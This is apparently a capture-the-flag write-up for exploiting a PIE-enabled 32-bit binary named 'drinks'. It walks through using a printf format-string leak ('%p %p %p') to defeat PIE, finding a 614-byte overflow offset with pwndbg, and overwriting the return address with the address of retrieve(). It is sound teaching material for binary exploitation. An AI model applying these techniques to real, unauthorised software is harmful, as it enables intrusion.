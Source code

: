 # Solution

## Analysis

1. The program notably has PIE enabled, so we need to find a way to leak out the function addresses.
   ```bash
    # checksec drinks 
    [*]
        Arch:       i386-32-little
        RELRO:      Full RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        PIE enabled
        Stripped:   No
    ```

    If you want the assembly code, type in this command:
    ```bash
    objdump -d -M intel --source drinks > objdump.txt
    ```

2. `printf(drink)` can be used to leak out the address.
   ```c
    gets(drink);
    printf(drink);
    ```

    We can use it to leak stack values (x86 program) such as the `vuln()` address.

3. The found offset is `614`.
   ```bash
   pwndbg> file drinks
   pwndbg> cyclic 1000
   aaaabaaacaaadaaaeaaafaaagaa...
   pwndbg> r
   What kind of drink do you want? a
   a
   
   What about the flavour?         aaaabaaacaaadaaaeaaafaaagaa...
   Your drink will be prepared in a moment!
   Program received signal SIGSEGV, Segmentation fault.

   0x61656761 in ?? ()
   LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
   ────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────
    EAX  0
    EBX  0x61636761 ('agca')
    ECX  0
    EDX  0
    EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
    ESI  0xffffcfac ◂— 'aikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaaj'
    EBP  0x61646761 ('agda')
    ESP  0xffffced0 ◂— 0x61666761 ('agfa')
    EIP  0x61656761 ('agea')
   ──────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────
   Invalid address 0x61656761

   pwndbg> cyclic -l 0x61656761
   Finding cyclic pattern of 4 bytes: b'agea' (hex: 0x61676561)
   Found at offset 614
   ```

## Leaking Address

1. Using [**pwndbg**](https://github.com/pwndbg/pwndbg), disable ASLR when running the program.
   ```bash
   pwndbg> aslr off
   ASLR is OFF (show disable-randomization)
   pwndbg> r

   Ctrl + C
   
   pwndbg> inf fu vuln
   0x56556287  vuln
   pwndbg> inf fu retrieve
   0x565561ed  retrieve
   ```

2. Leak an address.
   ```bash
   pwndbg> aslr off
   ASLR is OFF (show disable-randomization)
   pwndbg> r
   What kind of drink do you want? %p %p %p
   (nil) (nil) 0x56556296
   ```

3. Calculate offset from leak and `vuln()` address.
   ```
   0x56556296 - 0x56556287 = 0xf
   ```

4. Calculate offset from `vuln()` address and `retrieve()` address.
   ```
   0x56556287 - 0x565561ed = 0x9a
   ```

## Payload Creation

The first payload should be used to leak out the address.
```
%p %p %p
```

The second payload should follow this structure:

- 614 `b'A'`'s
- `*retrieve()`

## Exploiting

Have a look at the [`soln.py`](./soln.py) to see the full script and how it was created.